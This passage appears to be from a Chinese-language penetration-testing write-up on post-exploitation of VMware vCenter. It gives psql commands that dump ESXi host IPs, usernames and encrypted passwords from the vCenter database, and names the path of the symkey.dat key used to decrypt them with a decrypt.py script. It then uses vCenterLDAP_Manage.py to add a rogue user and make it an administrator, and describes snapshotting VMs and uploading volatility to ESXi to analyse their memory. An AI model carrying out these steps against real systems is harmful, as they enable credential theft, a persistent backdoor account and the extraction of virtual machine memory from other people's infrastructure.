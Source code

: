     
    
    # linux  
    /opt/vmware/vpostgres/current/bin/psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc  
      
    # windows  
    C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

 **获取symkey.dat文件**

    
    
    # linux  
    /etc/vmware-vpx/ssl/symkey.dat  
      
    # windows  
    C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat

 ****

解密 vpxuser 密码

    
    
    python3 decrypt.py symkey.dat password.enc password.txt

 **拿到权限后添加账户**

添加账户

    
    
    python vCenterLDAP_Manage.py adduser  
    input the new username: 1234admininput the dn: cn=1234admin,cn=Users,dc=vsphere,dc=localinput the userPrincipalName: 1234admin@vsphere.local

提升至管理员

    
    
    python vCenterLDAP_Manage.py addadmininput the user dn: cn=1234admin,cn=Users,dc=vsphere,dc=local

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

后续

 **创建快照**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152902.png)

分析快照文件需要.vmem文件作为参数，而.vmem文件通常很大，为了提高效率，这里选择将volatility上传至VMware ESXI，在VMware
ESXI上分析快照文件。
